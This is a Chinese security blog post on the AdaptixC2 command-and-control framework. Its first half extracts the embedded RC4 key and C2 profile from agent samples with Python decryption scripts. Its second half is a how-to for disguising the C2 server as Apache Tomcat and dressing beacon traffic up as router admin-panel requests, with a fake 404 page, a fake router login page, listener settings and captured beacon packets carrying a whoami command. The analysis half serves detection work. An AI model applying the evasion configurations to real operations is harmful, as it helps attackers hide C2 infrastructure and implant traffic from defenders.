# AdaptixC2样本分析及流量特征魔改-先知社区

> **来源**: https://xz.aliyun.com/news/18820  
> **文章ID**: 18820

---

# AdaptixC2样本分析之 agent\_beacon解密

## 1. 前言

之前分析过listener\_beacon\_http流量，里面需要用到一个EncryptKey进行RC4 加密流量，所以本章主要介绍的是实战情况下，手上只有一个样本的情况下，如何去分析出加解密用的key以及样本所使用的profile

**环境**

* AdaptixC2 Server端与Agent端（源码自备）
* IDE
* 16进制编辑器

## 2. 开始

默认生成的agent名是agent.x64.exe，所以我们CTRL+F大法搜索agent.x64，大致定位下生成的逻辑



filename：AdaptixC2\_main\_v0.8\Extenders\agent\_beacon\pl\_agent.go





发现pl\_agent.go并没有直接生成二进制，而是调用了 **MinGW-w64 / MinGW32 交叉编译工具链** 来编译 C/C++ 源码生成可执行文件

```
if generateConfig.Arch == "x86" {
    Compiler = "i686-w64-mingw32-g++"
    Ext = ".x86.o"
    stubPath = currentDir + "/" + ObjectDir + "/stub.x86.bin"
    Filename = "agent.x86"
} else {
    Compiler = "x86_64-w64-mingw32-g++"
    Ext = ".x64.o"
    stubPath = currentDir + "/" + ObjectDir + "/stub.x64.bin"
    Filename = "agent.x64"
}
...............................
agentProfileSize := len(agentProfile) / 4
if generateConfig.Format == "Service Exe" {
    cmdConfig = fmt.Sprintf("%s %s %s/config.cpp -DBUILD_SVC -DSERVICE_NAME='"%s"' -DPROFILE='"%s"' -DPROFILE_SIZE=%d -o %s/config.o", Compiler, cFlags, ObjectDir, svcName, string(agentProfile), agentProfileSize, tempDir)
} else {
    cmdConfig = fmt.Sprintf("%s %s %s/config.cpp -DPROFILE='"%s"' -DPROFILE_SIZE=%d -o %s/config.o", Compiler, cFlags, ObjectDir, string(agentProfile), agentProfileSize, tempDir)
}
runnerCmdConfig := exec.Command("sh", "-c", cmdConfig)
runnerCmdConfig.Dir = currentDir
runnerCmdConfig.Stdout = &stdout
runnerCmdConfig.Stderr = &stderr
err = runnerCmdConfig.Run()
```

往上翻翻在AgentGenerateProfile函数翻到了对encrypt\_key的定义，从 listenerMap 中传入的，然后通过 Base64 解码得到二进制 key



```
encrypt_key, _ := listenerMap["encrypt_key"].(string)
encryptKey, err := base64.StdEncoding.DecodeString(encrypt_key)
```

定义了HTTP Profile 结构体,用于确定 Agent 配置参数，HTTP 协议的 C2 地址、端口、URI、User-Agent、HTTP 头等，说明**params**不包含 key，只是被加密的业务配置

```
case "http":

		var Hosts []string
		var Ports []int
		hosts_agent, _ := listenerMap["callback_addresses"].(string)
		lines := strings.Split(strings.TrimSpace(hosts_agent), ", ")
		for _, line := range lines {
			line = strings.TrimSpace(line)
			if line == "" {
				continue
			}

			host, portStr, _ := net.SplitHostPort(line)
			port, _ := strconv.Atoi(portStr)

			Hosts = append(Hosts, host)
			Ports = append(Ports, port)
		}
		c2Count := len(Hosts)

		HttpMethod, _ := listenerMap["http_method"].(string)
		Ssl, _ := listenerMap["ssl"].(bool)
		Uri, _ := listenerMap["uri"].(string)
		ParameterName, _ := listenerMap["hb_header"].(string)
		UserAgent, _ := listenerMap["user_agent"].(string)
		RequestHeaders, _ := listenerMap["request_headers"].(string)

		WebPageOutput, _ := listenerMap["page-payload"].(string)
		ansOffset1 := strings.Index(WebPageOutput, "<<<PAYLOAD_DATA>>>")
		ansOffset2 := len(WebPageOutput[ansOffset1+len("<<<PAYLOAD_DATA>>>"):])

		seconds, err := parseDurationToSeconds(generateConfig.Sleep)
		if err != nil {
			return nil, err
		}

		params = append(params, int(agentWatermark))
		params = append(params, Ssl)
		params = append(params, c2Count)
		for i := 0; i < c2Count; i++ {
			params = append(params, Hosts[i])
			params = append(params, Ports[i])
		}
		params = append(params, HttpMethod)
		params = append(params, Uri)
		params = append(params, ParameterName)
		params = append(params, UserAgent)
		params = append(params, RequestHeaders)
		params = append(params, ansOffset1)
		params = append(params, ansOffset2)
		params = append(params, kill_date)
		params = append(params, working_time)
		params = append(params, seconds)
		params = append(params, generateConfig.Jitter)
```

这里将 params 序列化为字节流 → packedParams ，用 RC4 key进行 加密 → cryptParams，说明RC4 key 在 profile 外层结构中

```
packedParams, err := PackArray(params)
cryptParams, err := RC4Crypt(packedParams, encryptKey)
...........................
profileArray := []interface{}{len(cryptParams), cryptParams, encryptKey}
packedProfile, err := PackArray(profileArray)
```

结合之前看到的编译配置，大概率**profile**（含加密后的业务配置和 key）会被写入 **config.cpp** 并编译进二进制里面，所以把分析重点放在待编译目录



用vs打开看看大概的目录结构 AdaptixC2\_main\_v0.8\Extenders\agent\_beacon\src\_beacon\beacon.sln



可以看到config.cpp写了Profile，这里拿BEACON\_HTTP来分析下，跟一下getProfile的调用



有三处调用，根据文件名的定义，先看第一个AgentConfig.cpp





先通过getProfile() 取到**Profile**，前 4 字节是一个 size（Unpack32()），表示配置区长度 profileSize

```
memcpy(ProfileBytes, getProfile(), size);
this->encrypt_key = (PBYTE) MemAllocLocal(16);
//在配置区的后面紧跟着存放着 16 字节的 key
memcpy(this->encrypt_key, packer->data() + 4 + profileSize, 16);
//用这个密钥对前面的配置区做了一次解密
DecryptRC4(packer->data()+4, profileSize, this->encrypt_key, 16);

//数据结构
[4字节长度 profile_size][profile_size字节加密配置][16字节RC4 key]
```

到这里就理清楚了，刚刚的config.cpp就存着**Profile**，把**Profile**拿出来分析看看

```
#if defined(BEACON_HTTP) 
char* getProfile()
{
	return (char*)"\xa9\x00\x00\x00\xa4\x65\xba\x4b\x98\x58\x78\x88\x53\xb8\x08\x4c\x93\xba\xae\x88\x9b\x7d\x37\x95\xaf\x65\xe9\x78\xf8\x77\x31\x49\xda\x00\xcd\x4d\xd4\x79\x1c\xa8\x2d\xb6\xa8\x87\x10\x51\x7d\x64\x1c\x24\xfd\x5c\xba\xad\xb5\x7f\xc0\x61\xd6\x66\xa5\xb5\x55\xce\x59\xf0\xda\x98\x58\x87\x0e\x27\x7c\x0c\x40\x14\x7b\x4e\xd5\xe5\xfb\x13\xf1\x17\x3c\xae\x9b\xf8\xec\xd7\x63\x04\x6c\x8e\x8b\x92\x49\x15\xce\x92\x05\x8a\x29\xa7\x9e\x0f\x8d\xe2\x26\xa1\xb8\xa2\xfc\x08\x6f\xf7\x0a\x63\x3c\x4c\xb9\x2f\x82\xe3\xe9\x62\x87\x13\x8b\x58\xac\x3f\x00\x26\x54\xc9\x59\x46\x8f\x30\x01\x7c\x48\xb7\x23\xe9\x06\xe9\x4d\x08\xaa\x4d\xd2\x5d\x71\x76\xe3\xeb\x23\x93\x34\x6a\x78\xaa\x81\x2a\xa5\xe7\x40\x6f\x48\x5f\x4e\x6e\x0b\x08\xa4\x27\x8b\x2a\x91\x9f\x3e\x2d\x94\x66\x76\x5e\xd1";
}
```

数据结构：

```
[0~3]      : profile_size（小端 4 字节）
[4~4+size-1]: 加密配置区（profile_size 字节）
[4+size~4+size+15]: RC4 key（16 字节）
```

* **关键点**：key 在加密配置区后面紧跟的16 字节**profile\_size** 是一个小端整数（4 字节），标记加密配置长度
* **RC4 key** 被嵌入在静态数组的最后，用于解密前面的加密配置。

这里验证下猜想，简单构建下脚本，打印看看，这里little是小端 x64架构

```
# 原始数据
hex_bytes = (
    b"\xa9\x00\x00\x00\xa4\x65\xba\x4b\x98\x58\x78\x88\x53\xb8\x08\x4c\x93"
    b"\xba\xae\x88\x9b\x7d\x37\x95\xaf\x65\xe9\x78\xf8\x77\x31\x49\xda\x00"
    b"\xcd\x4d\xd4\x79\x1c\xa8\x2d\xb6\xa8\x87\x10\x51\x7d\x64\x1c\x24\xfd"
    b"\x5c\xba\xad\xb5\x7f\xc0\x61\xd6\x66\xa5\xb5\x55\xce\x59\xf0\xda\x98"
    b"\x58\x87\x0e\x27\x7c\x0c\x40\x14\x7b\x4e\xd5\xe5\xfb\x13\xf1\x17\x3c"
    b"\xae\x9b\xf8\xec\xd7\x63\x04\x6c\x8e\x8b\x92\x49\x15\xce\x92\x05\x8a"
    b"\x29\xa7\x9e\x0f\x8d\xe2\x26\xa1\xb8\xa2\xfc\x08\x6f\xf7\x0a\x63\x3c"
    b"\x4c\xb9\x2f\x82\xe3\xe9\x62\x87\x13\x8b\x58\xac\x3f\x00\x26\x54\xc9"
    b"\x59\x46\x8f\x30\x01\x7c\x48\xb7\x23\xe9\x06\xe9\x4d\x08\xaa\x4d\xd2"
    b"\x5d\x71\x76\xe3\xeb\x23\x93\x34\x6a\x78\xaa\x81\x2a\xa5\xe7\x40\x6f"
    b"\x48\x5f\x4e\x6e\x0b\x08\xa4\x27\x8b\x2a\x91\x9f\x3e\x2d\x94\x66\x76"
    b"\x5e\xd1"
)

# 前 4 字节表示 profileSize
profile_size = int.from_bytes(hex_bytes[:4], "little")

# 取出 encrypt_key （profile_size 后的 16 字节）
encrypt_key = hex_bytes[4 + profile_size : 4 + profile_size + 16]

print(profile_size, encrypt_key.hex())
```

这里169表示4 字节（a9 00 00 00）加密配置区长度，那第 173~188 字节就是 **encrypt\_key**

```
//out：169 6e0b08a4278b2a919f3e2d9466765ed1
```

下面看看能不能用key解密配置区

```
from Crypto.Cipher import ARC4
# 提取加密的配置区
encrypted_profile = hex_bytes[4:4 + profile_size]
# print(encrypted_profile)

# 用提取出的 RC4 key 解密
cipher = ARC4.new(encrypt_key)
decrypted_profile = cipher.decrypt(encrypted_profile)

print(decrypted_profile)
```

```
//out：b'I\x01L\xbe\x01\x01\x00\x00\x00\r\x00\x00\x00172.16.196.1\x00[\x11\x00\x00\x05\x00\x00\x00POST\x00\t\x00\x00\x00/uri.php\x00\x0c\x00\x00\x00X-Beacon-Id\x00B\x00\x00\x00Mozilla/5.0 (Windows NT 6.2; rv:20.0) Gecko/20121202 Firefox/20.0\x00\x03\x00\x00\x00\r
\x00\x1a\x00\x00\x00\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00'

//对应AgentConfig中的字段
C2 地址：172.16.196.1
HTTP 方法：POST
URI：/uri.php
HTTP Header：X-Beacon-Id
User-Agent：Mozilla/5.0 (Windows NT 6.2; rv:20.0) Gecko/20121202 Firefox/
```

到这里分析已经大概明朗了，现在就是怎么从样本中取到这个**Profile**了，既然能通过getProfile() 直接取到**Profile**，说明硬编码在二进制里面了，所以在无壳无魔改环境下应该能通过静动态分析出key从而拿到profile进行解密获得C2连接信息，这里构建一个脚本用于读取 exe 的二进制数据来扫描 profile 特征

```
import sys
import struct
import binascii
from Crypto.Cipher import ARC4
import textwrap
import base64
import re

def contains_ip(dec):
    # 正则匹配 IPv4 地址
    ip_pattern = rb'\b(?:\d{1,3}\.){3}\d{1,3}\b'
    return re.search(ip_pattern, dec) is not None

# 从 exe 数据中扫描 profile
def try_parse_profile(blob, offset):
    if offset + 4 > len(blob): return None
    profile_size = struct.unpack_from("<I", blob, offset)[0]
    if profile_size < 20 or profile_size > 2048:
        return None
    enc_start = offset + 4
    enc_end = enc_start + profile_size
    key_start = enc_end
    key_end = key_start + 16
    if key_end > len(blob): return None

    enc_profile = blob[enc_start:enc_end]
    enc_key = blob[key_start:key_end]
    cipher = ARC4.new(enc_key)
    dec = cipher.decrypt(enc_profile)

    if contains_ip(dec):
        return profile_size, enc_key, dec
    return None
    # 简单检测是否可能是 HTTP beacon
    # if b"POST" in dec:
    #     return profile_size, enc_key, dec
    # return None


def main(exe_path):
    with open(exe_path, "rb") as f:
        blob = f.read()

    found = False
    for i in range(len(blob) - 20):
        result = try_parse_profile(blob, i)
        if result:
            profile_size, enc_key, dec = result
            print("="*60)
            print(f"[+] Found profile at offset 0x{i:X}")
            print(f"    RC4 key file offset = 0x{(i + 4 + profile_size):X}")  # key 在文件中的偏移
            print(f"    profile_size = {profile_size}")
            print(f"    RC4 key = {binascii.hexlify(enc_key).decode()}")
            #转为 Base64
            print(f"    RC4 key (Base64) = {base64.b64encode(enc_key).decode()}")
    
            print("
[+] Decrypted profile (printable preview):")
            preview = ''.join((chr(b) if 32 <= b < 127 else '.') for b in dec[:256])
            print(textwrap.fill(preview, width=80))
            print("="*60)
            found = True
            break

    if not found:
        print("[-] No valid profile found. Try adjusting search logic.")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <exe_path>")
        sys.exit(1)
    main(sys.argv[1])
```

Run一下发现跟之前分析流量在服务端DB看到的key一致

```
python xxxx.py agent.x64.exe                                                                                                        
============================================================
[+] Found profile at offset 0x12400
    RC4 key file offset = 0x124DE
    profile_size = 218
    RC4 key = 909898f9e3686aafe3f15bd21d43a5d1
    RC4 key (Base64) = kJiY+eNoaq/j8VvSHUOl0Q==

[+] Decrypted profile (printable preview):
I.L..........C2回连地址（已码）.Q.......POST...../api/dns.....x-nws-log-
uuid.p...Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/139.0.0.0 Safari/537.36................................
============================================================
```



同理拿这个0x124DE地址去16进制编辑器搜也能搜到这个key **909898f9e3686aafe3f15bd21d43a5d1**



在key后面还发现一个静态特征Undefined symbol，只有一处地方，往前就能看到key了（后续试了下x86也有这个特征）



# AdaptixC2魔改特征之 listener\_beacon\_http

## 1. 前言

之前分析过listener\_beacon\_http流量特征，所以这里就写写如何去特征的思路

## 2. 开始

**防资产测绘**

服务端跑起来后默认监听在4321端口，默认端点是/endpoint



访问一下这个服务端，显然这个错误页太明显了



还有响应头也是



对服务端默认的**profile.json**改造下 （伪造下Tomcat）

* "port": 4321 > 大端口18080 常用端口容易招扫描
* "endpoint": "/endpoint" > tomcat的管理页 /manager/html
* "password": "pass" > 符合密码强度随意
* "Server": "AdaptixC2" > Apache-Coyote/1.1
* "Adaptix Version": "v0.8"> 删掉



默认的**404page.html**改成tomcat的404页面

```
<!doctype html>
<html lang="zh">
  <head>
    <title>HTTP状态 404 - 未找到</title>
    <style type="text/css">
      body {
        font-family: Tahoma, Arial, sans-serif;
      }
      h1, h2, h3, b {
        color: white;
        background-color: #525D76;
      }
      h1 {
        font-size: 22px;
      }
      h2 {
        font-size: 16px;
      }
      h3 {
        font-size: 14px;
      }
      p {
        font-size: 12px;
      }
      a {
        color: black;
      }
      .line {
        height: 1px;
        background-color: #525D76;
        border: none;
      }
    </style>
  </head>
  <body>
    <h1>HTTP状态 404 - 未找到</h1>
    <hr class="line" />
    <p><b>类型</b> 状态报告</p>
    <p><b>消息</b> The requested resource [/manager/html] is not available</p>
    <p><b>描述</b> 源服务器未能找到目标资源的表示或者是不愿公开一个已经存在的资源表示。</p>
    <hr class="line" />
    <h3>Apache Tomcat/9.0.99</h3>
  </body>
</html>

```

改完效果如下

```
"Teamserver": {
  "interface": "0.0.0.0",
  "port": 18080 ,
  "endpoint": "/manager/html",
  "password": "pass1AsgHAsS2N",
  "cert": "server.rsa.crt",//有条件就上个正规证书和域名
  "key": "server.rsa.key",//有条件就上个正规证书和域名
  "extenders": [
    "extenders/listener_beacon_http/config.json",
    "extenders/listener_beacon_smb/config.json",
    "extenders/listener_beacon_tcp/config.json",
    "extenders/agent_beacon/config.json",
    "extenders/listener_gopher_tcp/config.json",
    "extenders/agent_gopher/config.json"
  ],
  "access_token_live_hours": 12,
  "refresh_token_live_hours": 168
}

"ServerResponse": {
  "status": 404,
  "headers": {
    "Content-Type": "text/html; charset=UTF-8",
    "Server": "Apache-Coyote/1.1"
  },
  "page": "404page.html"
}
```



**去流量特征**

看下**Listener**有什么可配置的字段；基本思路是将http伪装成正常的业务流量







由于心跳包的特性每几秒就会产生一个包，所以这里大概想法就是伪装成系统的后台带数据实时刷新的那种，比如说设备后台、大数据展示后台等等，思路可以自由拓展下，这里拿路由器后台举例



通过模仿正常路由器的数据包来进行修改**Listener**

```
POST /stok=CjADI3WO2g%2B%2SYo%5D%7BK%08%08WG7H2YA5EIhY)/ds HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 160
Content-Type: application/json; charset=UTF-8
Host: 192.168.10.1
Origin: http://192.168.10.1
Referer: http://192.168.10.1/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

{"wireless":{"name":["wlan_host_2g","wlan_host_5g"]},"guest_network":{"name":["guest_2g","guest_5g"]},"custom_wireless":{"name":["wifi_switch"]},"method":"get"}

HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 1116
Connection: close
Access-Control-Allow-Origin: http://192.168.10.1
Cache-control: no-cache

{"code":200,"message":"OK","data":{"wireless":{"wlan_host_2g":{"enable":"1","ssid":"Test24G","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"9","bandwidth":"2","power":"0","isolate":"0","auth":"0","cipher":"1","max_sta_num":"0"},"wlan_host_5g":{"enable":"1","ssid":"Test5G","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"10","bandwidth":"0","power":"0","isolate":"0","auth":"0","cipher":"1","max_sta_num":"0"}},"custom_wireless":{"wifi_switch":{"enable":"on","enable_2g":"on","enable_5g":"on"}}}}
```

接下来开始配置**Main settings**，SSL我用的自签名证书，按需开启



然后是**Page Payload** 记得找个字段插入<<<PAYLOAD\_DATA>>>



```
{"wireless":{"wlan_host_2g":{"enable":"1","ssid":"CS24","ssidbr
  d":"1","encryption":"1","key":"88888888","channel":"0","mode":"9","bandwidth":"2","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"},"wlan_host_5g":{"enable":"1","ssid":"CS5","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"10","bandwidth":"0","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"}},"guest_network":{"guest_2g":{"ssid":"CMCC%2DGUEST%2D6kak","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"},"guest_5g":{"ssid":"CMCC%2DGUEST%2D6kak%2D5G","encrypt":"0","key":"<<<PAYLOAD_DATA>>>","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"}},"custom_wireless":{"wifi_switch":{"enable":"on","enable_2g":"on","enable_5g":"on","enable_5g1":"on","enable_5g4":"on"}},"error_code":0}
```

最后是Page Error 配置成路由器登录界面



注意这个路由器登录页所用的样式图片都是base64内嵌在html中（实现单HTML文件访问），有条件可以考虑外链

```
<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>WMA301</title>
    <meta name="MobileOptimized" content="240">
    <meta name="viewport" content="width=device-width, height=device-height, initial-scale=1.0, minimum-scale=0.5, maximum-scale=2.0, user-scalable=yes">
    <link rel="shortcut icon" href="" type="image/x-icon">
    <style>
      body,div,span,object,iframe,h1,h2,h3,h4,h5,h6,p,blockquote,pre,a,abbr,acronym,address,code,del,dfn,em,img,q,dl,dt,dd,ol,ul,li,fieldset,form,label,legend,table,caption,tbody,tfoot,thead,tr,th,td,article,aside,dialog,figure,footer,header,hgroup,nav,section {
        border: 0;
        font: inherit;
        margin: 0;
        padding: 0;
        outline: 0;
        vertical-align: baseline
      }
      input.subBtn {
        color: #333;
        font-size: 12px;
        border-radius: 3px;
        border: 0;
        cursor: pointer;
        vertical-align: middle;
        background: #fbeb1a
      }

      #Login {
        height: 100%;
        display: none
      }

      input[type="text"], input[type="password"] {
        outline: none;
        border: 1px solid #ccc; 
        box-shadow: none; 
      }
    </style>
  </head>
  <body>
    <div id="Error" style="top: -9999px; visibility: hidden; display: none;"></div>
    <div id="Confirm" style="top: -9999px; visibility: hidden; display: none;"></div>
    <div id="Con" style="display: none;"></div>
    <div id="Help" style="display: none;"></div>
    <div id="Cover" style="display: none; visibility: hidden;"></div>
    <div id="Login" style="display: block;">
    <div class="logo">
        <i class="tpLogo" id="tpLogo" style="display: none;"></i>
        <i class="andlinkLogo" id="andlinkLogo" style="background: url('') 0px 18px no-repeat scroll;"></i>
        <i class="elinkLogo" id="elinkLogo" style="display: none;"></i>
        <label class="proName" id="prName">产品型号：WMA301</label>
        
    </div>
    <div class="lgCon">
        <ul class="lg">
            <li class="lgTitle">管理员密码</li>
            <li id="lgUsrBlock" class="lgInput disNone" style="display: list-item;">
                <ul class="lgPwd">
                    <li id="inputUsr" class="inputPwd">
					<label class="pwd" for="lgUsr">用户名</label>
					<input id="lgUsr" name="username" type="text" maxlength="32">
					<label id="usrTipStr" for="lgUsr" style="display: none;">请输入管理员账号</label>
                    </li>
                </ul>
            </li>
            <li class="lgInput">
                <ul class="lgPwd">
                    <li id="inputPwd" class="inputPwd">
					<label class="pwd" for="lgPwd">密码</label>
					<input id="lgPwd" name="password" type="password" maxlength="32">
					<label id="pwdTipStr" for="lgPwd" style="display: none;">请输入管理员密码</label>
                    </li>
                    <li class="pwdNote" id="lgPwdNote">
                        <i class="tip"></i>
                                <label id="loginError" style="line-height: 35px;">用户名或密码错误，请重新输入。</label>
                    </li>
                </ul>
				<li class="lgBtn">
    <input type="button" class="subBtn" id="loginSub" value="确    定" onclick="showError()">
</li>
            </li>
            <li class="loginHelp" style="display: none;">
                <span class="loginHelp" style="display: none;">忘记密码?</span>
                <div id="loginFeg">
                    <i class=""></i>
                    <p class="">如忘记密码，请恢复出厂设置。<br>恢复方法：在设备通电的情况下，按住路由器背面的“Reset”按钮直到所有指示灯同时亮起后松开。</p>
                </div>
            </li>
            <div class="andlinkQRcode">
                <img src="">
                <i class="des" style="background: url('') no-repeat;"></i>
            </div>
        </ul>
        
        
        
        
    </div>
    <style type="text/css">
        body {background-position:1688px 535px; background-size:66px 32px; background-color:#5e85c0; background-image:url(''); background-repeat:no-repeat; font-size:12px; height:100%}
        div.logo {width:980px; height:60px; margin:0 auto; position:relative}
        .tpLogo {display:inline-block; width:131px; height:100%}
        .andlinkLogo {display:inline-block; width:205px; height:100%}
        .elinkLogo {display:inline-block; width:214px; height:100%}
        .andlinkQRcode {width:170px; height:102px; padding:12px; margin:60px 0 0 65px; background:#fff; box-sizing:border-box}
        .andlinkQRcode i.des {display:inline-block; height:30px; width:60px; margin:24px 0 24px 8px}
        div.lgCon {width:980px; margin:0 auto; position:relative}
        div.lgCon ul.lg {font-size:0; margin:125px 0 0 340px; list-style:none; width:550px}
        li.lgTitle {color:#fff; font-size:24px; font-weight:bold; margin-bottom:35px}
        li.lgInput {margin-bottom:25px}
        ul.lgPwd {font-size:0; height:35px; position:relative; list-style:none; *zoom:1}
        ul.lgPwd li.inputPwd {background:#fff; border-radius:3px; float:left; font-size:0; height:35px; line-height:35px; overflow:hidden; width:300px }
        li.inputPwd label.pwd {border-right:1px solid #5e85bf; color:#3c3e43; display:inline-block; font-size:14px; line-height:35px; text-align:center; vertical-align:top; width:50px}
        @media screen and (-webkit-min-device-pixel-ratio:0){li.inputPwd input{line-height:0!important}}
        li.inputPwd input {background:#fff; border:0; font-size:12px; height:35px; *height:34px; line-height:35px; *line-height:34px; margin-left:9px; padding:0; vertical-align:top; width:230px;}
        ul.lgPwd li.pwdNote {float:left; height:35px; line-height:35px; visibility:hidden; width:250px}
        #pwdTipStr, #usrTipStr {background:#fff; color:#a6a6a6; height:30px; *line-height:34px; font-size:12px; left:56px; position:absolute; top:1px}
        i.tip {background:url('') -441px -68px no-repeat; display:inline-block; height:13px; margin-left:7px; vertical-align:middle; width:13px}
        #loginError {color:#fff; font-size:12px; line-height:16px; margin-left:7px; vertical-align:middle; display:inline-block}
        li.lgBtn {margin-bottom:8px}
        li.lgBtn input {font-size:14px; padding-top:6px; padding-bottom:6px; *padding-top:5px; *padding-bottom:3px; width:300px}
        li.loginHelp {font-size:12px; margin-bottom:55px}
        span.loginHelp {color:#fff; cursor:pointer; text-decoration:underline}
        #loginFeg {background:#4a6ca0; border-radius:3px; color:white; margin-top:13px; position:relative; visibility:hidden; width:300px}
        #loginFeg p {line-height:20px; padding:12px; text-indent:0; word-break:break-all; word-wrap:break-word}
        #loginFeg i {height:0; line-height:0; width:0; top:-9px; left:15px; position:absolute; border-style:solid; border-color:#5e85bf #5E85Bf #4a6ca0 #5E85BF; border-width:0 9px 9px 9px}
        #Cover p {padding:0; text-align:center; color:#fff; font-weight:bold; font-size:16px}
        img.loginBgF {height:41px; position:absolute; top:45px; right:-92px; width:92px}
        img.loginBgS {position:absolute; top:95px; left:-63px; height:32px; width:66px}
        img.loginBgT {position:absolute; height:57px; width:136px; top:105px; left:0}
        img.loginBgFi {position:absolute; top:250px; right:30px; height:40px; width:94px}
        img.loginBgSi {position:absolute; top:460px; left:190px; height:40px; width:94px}
        label.proName {font-size:12px; color:#fff; top:21px; right:10px; position:absolute}
    </style>
</div>
<script type="text/javascript">
function showError() {
    var errorLabel = document.getElementById('lgPwdNote'); 
    errorLabel.style.visibility = 'visible';
    var label = document.getElementById('loginError');
    label.innerText = '用户名或密码错误，请重新输入。';
}
window.onload = function() {
    const usrInput = document.getElementById('lgUsr');
    const pwdInput = document.getElementById('lgPwd');
    const usrTip = document.getElementById('usrTipStr');
    const pwdTip = document.getElementById('pwdTipStr');

    function toggleTip(input, tip) {
        if (input.value) {
            tip.style.display = 'none';
        } else {
            tip.style.display = 'block';
        }
    }

    usrInput.addEventListener('focus', () => usrTip.style.display = 'none');
    usrInput.addEventListener('blur', () => toggleTip(usrInput, usrTip));
    pwdInput.addEventListener('focus', () => pwdTip.style.display = 'none');
    pwdInput.addEventListener('blur', () => toggleTip(pwdInput, pwdTip));

    toggleTip(usrInput, usrTip);
    toggleTip(pwdInput, pwdTip);
};
</script>
</body>
</html>
```

创建好**Listener**后 看看效果，与一般路由器访问无二，输入账户密码是固定返回用户名或密码错误增加迷惑性





使用这个**Listener**生成**Agent**上线看看流量



下发一个whoami命令看看流量



第一个包 下发命令

```
POST /stok=CjADI3WO2g2SYoKWG7H2YA5EIhY/ds HTTP/1.1
Accept: */*
Cookie: i68CXJG0nGGQ3PR5yj2nOU74/mFTOpBAyXWaJMNN6JpQEqHA/rAu1ZWQxO4uhD1EDK8zBPdu+VTUtJJHA4S+L89lLMFg2edTRP5aZGnR9eVrUD3Zge97PNle8SaQqgLTRcTWg6Ser9/mTt2gqSXZzglV19BbOQx4Lw==
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Host: 192.168.176.130
Content-Length: 0
Connection: Keep-Alive
Cache-Control: no-cache


HTTP/1.1 200 OK
Date: Thu, 11 Sep 2025 13:40:30 GMT
Content-Length: 1169
Content-Type: text/plain; charset=utf-8

{"wireless":{"wlan_host_2g":{"enable":"1","ssid":"CS24","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"9","bandwidth":"2","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"},"wlan_host_5g":{"enable":"1","ssid":"CS5","ssidbrd":"1","encryption":"1","key":"88888888","channel":"0","mode":"10","bandwidth":"0","power":"0","isolate":"0","turboon":"0","auth":"0","cipher":"1","twt":"0","ofdma":"0","max_sta_num":"0"}},"guest_network":{"guest_2g":{"ssid":"CMCC%2DGUEST%2D6kak","encrypt":"0","key":"","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"},"guest_5g":{"ssid":"CMCC%2DGUEST%2D6kak%2D5G","encrypt":"0","key":".*'J".......P.>_..l.Rh..Y'.J...w.s....N....._'...U.F.W.3...","enable":"0","accright":"0","upload":"0","download":"0","time_limit":"0","limit_type":"timeout","duration":"0","ssidbrd":"1","auth":"0","cipher":"1","max_sta_num":"0"}},"custom_wireless":{"wifi_switch":{"enable":"on","enable_2g":"on","enable_5g":"on","enable_5g1":"on","enable_5g4":"on"}},"error_code":0}
```

第二个包 确认命令

```
POST /stok=CjADI3WO2g2SYoKWG7H2YA5EIhY/ds HTTP/1.1
Accept: */*
Cookie: i68CXJG0nGGQ3PR5yj2nOU74/mFTOpBAyXWaJMNN6JpQEqHA/rAu1ZWQxO4uhD1EDK8zBPdu+VTUtJJHA4S+L89lLMFg2edTRP5aZGnR9eVrUD3Zge97PNle8SaQqgLTRcTWg6Ser9/mTt2gqSXZzglV19BbOQx4Lw==
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Host: 192.168.176.130
Content-Length: 59
Connection: Keep-Alive
Cache-Control: no-cache

.*'qh.......P.=...V.#B+.a9.r'.._.g..........Qm.......V.....
HTTP/1.1 200 OK
Date: Thu, 11 Sep 2025 13:40:30 GMT
Content-Length: 1110
Content-Type: text/plain; charset=utf-8

